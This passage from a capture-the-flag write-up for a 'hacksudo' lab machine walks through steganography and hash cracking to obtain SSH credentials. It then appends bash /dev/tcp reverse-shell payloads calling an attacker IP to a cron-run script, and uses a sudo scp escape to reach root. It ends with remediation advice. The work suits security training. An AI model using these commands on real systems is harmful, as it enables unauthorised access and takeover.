

When I use the `stegseek` command:
```shell
$ stegseek --seed vishal.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found (possible) seed: "b37f9d68"
        Plain size: 178.0 Byte(s) (compressed)
        Encryption Algorithm: rijndael-128
        Encryption Mode:      cbc
```
Then I see it detects an encryption. When I use the `--crack` switch of the `stegseek` command, and I use the Rockyou list:
```shell
$ stegseek vishal.jpg rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "iloveyou"
[i] Original filename: "s3cr3t.txt".
[i] Extracting to "vishal.jpg.out".
```
Then it finds the file `s3cr3t.txt`, and the password is `iloveyou`. When I see the content of the file `s3cr3t.txt`:
```
onpxhc bs unpxfhqb znpuvar hfre
hfre ivfuny
cnffjbeq 985nn195p09so7q64n4oo24psr51so1s13rop444p494r765rr99q6p3rs46557
p757787s8s5n6r0260q2r0r846q263sosor1311p884oo0os9792s8778n4434327
```
And by the structure, then I guess that it uses some kind of `substitution cipher`. When I use CyberChef, and I test it with the `ROT13`, then it works:


And I can read:
```
backup of hacksudo machine user
user vishal
password 985aa195c09fb7d64a4bb24cfe51fb1f13ebc444c494e765ee99d6c3ef46557
c757787f8f5a6e0260d2e0e846d263fbfbe1311c884bb0bf9792f8778a4434327
```
And the password seems to be a hash, when I store it in a file called `vishal.hash`, and I use the `hashid` command:
```shell
$ hashid vishal.hash
...SNIPPED...
[+] SHA-512
[+] Whirlpool
[+] Salsa10
[+] Salsa20
...SNIPPED...
```
Then I think it is probably the `SHA-512`, when I use the `hashcat` command, and the Rockyou list:
```shell
$ hashcat -a 0 -m 1700 vishal.hash rockyou.txt --force
...SNIPPED...
985aa195c09fb7d64a4bb24cfe51fb1f13ebc444c494e765ee99d6c3ef46557c757787f8
f5a6e0260d2e0e846d263fbfbe1311c884bb0bf9792f8778a4434327:hacker
...SNIPPED...
```
Then I was able to crack it, and now, I have the credentials `vishal:hacker`. When I use the `ssh` command:
```shell
$ sshpass -p 'hacker' ssh vishal@192.168.2.35 -p 2222
```

Then I successfully connected to `vishal`'s shell:



## Lateral movement 2
When I check the `/office` directory again, then I can assume the `hacksudo` file might be running in the background
And I try to examine the process with the `Pspy` tool.. When I download the `Pspy` tool:
```shell
$ wget "https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/
> pspy64"
```
And I copy it to the `vishal`'s home:
```shell
$ sshpass -p 'hacker' scp -P 2222 pspy64 vishal@192.168.2.35:/home/vishal
```
And I run it:
```shell
$ vishal@hacksudo:~$ ./pspy64
...SNIPPED...
2023/02/02 14:30:01 UID=1000  | /bin/sh -c /home/hacksudo/./getmanager
2023/02/02 14:30:01 UID=1000  | /home/hacksudo/./getmanager
2023/02/02 14:30:01 UID=1000  | sh -c bash /home/vishal/office/manage.sh
...SNIPPED...
2023/02/02 14:32:01 UID=1000  | sh -c bash /home/vishal/office/manage.sh
```
Then I can confirm that the `hacksudo` user is running the `hacksudo` binary, and it runs every minute, and the binary runs the script `manage.sh`, and the user `vishal` has permission to modify that file, and that means I could perform a reverse shell. When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1235
```
And I add the following payload to the `manage.sh` file:
```shell
$ vishal@hacksudo:~$ echo "bash -c \
> 'bash -i >& /dev/tcp/192.168.2.31/1235 0>&1'" >> office/manage.sh
```
Then I get the reverse shell with the user `hacksudo`, and I can get the user flag:



## Privilege escalation

When I explore the `hacksudo`'s home directory, then I find a file called `get`. When I use the `file` command:
```shell
$ hacksudo@hacksudo:~$ file get
get: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=fdbcba2f02a8ae2d6051d0460c98dc57c5e604e3,
for GNU/Linux 3.2.0, not stripped
```
Then I can identify that it is an executable. When I encoded it to `base64`:
```shell
$ hacksudo@hacksudo:~$ cat get | base64 -w 0
```
And I copy it to the clipboard, and I paste it into CyberChef, then I can decode it on my local machine:



When I decompiled with `Ghidra`, then I can see the `main` function:



But it does not seem to be useful for privilege escalation, and I decided to check the process again with the `Pspy` tool:
```shell
...SNIPPED...
2023/02/02 14:36:01 UID=0 | /bin/sh -c hacksudo /home/hacksudo/./manage.sh
...SNIPPED...
```
And I identify that the `root` user runs a `hacksudo` command, and the command is weird, but I give it a try. When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1236
```
And I write a reverse shell payload on the `manage.sh` file:
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1236 0>&1'" >> manage.sh
```
Then nothing happens, it does not work. When I check the `sudo` privileges:
```shell
$ hacksudo@hacksudo:~$ sudo -l
...SNIPPED...
User hacksudo may run the following commands on hacksudo:
    (root) NOPASSWD: /usr/bin/scp
```
Then I check the [`scp` in gtfobins ](https://gtfobins.github.io/gtfobins/scp/), then I can see how to exploit it:



When I follow the steps:
```shell
$ TF=$(mktemp)
$ echo 'sh 0<&2 1>&2' > $TF
$ chmod +x "$TF"
$ sudo scp -S $TF x y:
```
Then I get the `root` shell, and I get the `root` flag:



## Remediation
Given I was able to guess the `admin` credentials of the `Tomcat` service, and I also see the SQL table of exposed users in webroot, and the hashes use a weak password without salt, and on the server, there is an image with hidden credentials, then they should not use easy-to-guess credentials for critical services, and do not expose the database in the webroot and do not allow hashing with weak passwords, nd keep the credentials in a safe place, nd do not give more privileges than necessary to the users of the server, and with that, it may not be possible to get the root's shell.